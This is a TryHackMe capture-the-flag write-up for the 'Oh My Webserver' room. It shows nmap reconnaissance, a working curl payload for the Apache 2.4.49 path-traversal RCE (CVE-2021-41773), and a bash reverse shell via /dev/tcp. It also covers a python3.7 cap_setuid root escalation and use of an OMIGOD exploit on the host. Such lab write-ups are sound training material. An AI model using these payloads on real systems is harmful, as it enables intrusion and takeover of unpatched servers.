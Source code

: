 # Oh My Webserver

---

Platform: Tryhackme

Difficulty: Medium

Initial Access: Outdated apache web server

Privilege Escalation: Misconfigured capabilities(container) and CVE-2021-38647(hostmachine)

---

Nmap scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.10.25.254 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 00:34 EDT
Nmap scan report for 10.10.25.254
Host is up (0.27s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%), Google Android 10.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:google:android:10 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports | Methodology |
| --- | --- |
| 22 (SSH) | Potentially for later use |
| 80 (http) | Apache service version 2.4.49 looks outdated. May be potential exploit availabe for this service version. |

---

### Getting User Flag

Port 80: 

Just a static website of business consultancy.

![image.png](image.png)

We can search for potential exploit which may be available on google for apache service version 2.4.49

![image.png](image%201.png)

Confirmed, this service version is vulnerable to CVE-2021-41773.

<aside>
💡

Apache 2.4.49 had a bug in how it normalized paths when processing HTTP requests.

This allowed attackers to **bypass access restrictions** and read files outside of the intended web root.
The `mod_cgi` or `mod_cgid` module must be enabled **if** you want to escalate to remote code execution.

</aside>

We can confirm `cgi-bin` directory though our browser.

![image.png](image%202.png)

Forbidden, means its present, but we can’t access it.

Through the understanding of above CVE, we can use this payload to check if it works.

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ curl 'http://10.10.92.95/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"
```

![image.png](image%203.png)

Ok, as it is executing our commands, let’s get the reverse shell back to us.

```bash
┌──(ghost㉿kali)-[~/tryhackme/ohmywebserver]
└─$ curl 'http://10.10.92.95/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami; bash; /bin/bash -i >& /dev/tcp/10.17.87.131/4445 0>&1' -H "Content-Type: text/plain"
```

![image.png](image%204.png)

Got the reverse shell back as user daemon, but it’s a container, not a host machine….

![image.png](image%205.png)

After a lot of enumeration, I found something interesting by exploring capabilities.

![image.png](image%206.png)

python3.7 binary is set for cap_setuid+ep capability, we can use it to gain root access.

> If you wanna read and know more about capabilities you can check [article by hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on privilege escalation via capabilities.
> 

```bash
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![image.png](image%207.png)

Got root shell on that container.

Grabbed user flag.

![image.png](image%208.png)

---

### Getting Root flag

Checked container’s ip address

![image.png](image%209.png)

As this container is running on ip `172.17.0.2` , host machine should be running on `172.17.0.1` 

We can transfer [nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) on container and use it to scan open ports on hostmachine. 

Download that binary on your kali machine, then transfer it to the container which we owned.

![image.png](image%2010.png)

![image.png](image%2011.png)

Run that nmap binary.

![image.png](image%2012.png)

As we can see, 4 ports were open on hostmachine `22, 80, 5985, 5986`

While searching for potential service exploit for 5986, found out a POC for CVE-2021-38647 #OMIGOD.

![image.png](image%2013.png)

Downloaded that python exploit in to kali machine and served it to the container.

![image.png](image%2014.png)

![image.png](image%2015.png)

Run that exploit.

![image.png](image%2016.png)

And, successfully able to execute commands to the hostmachine.

Let’s grab root’s flag.

![image.png](image%2017.png)

---

That’s it for this machine.✅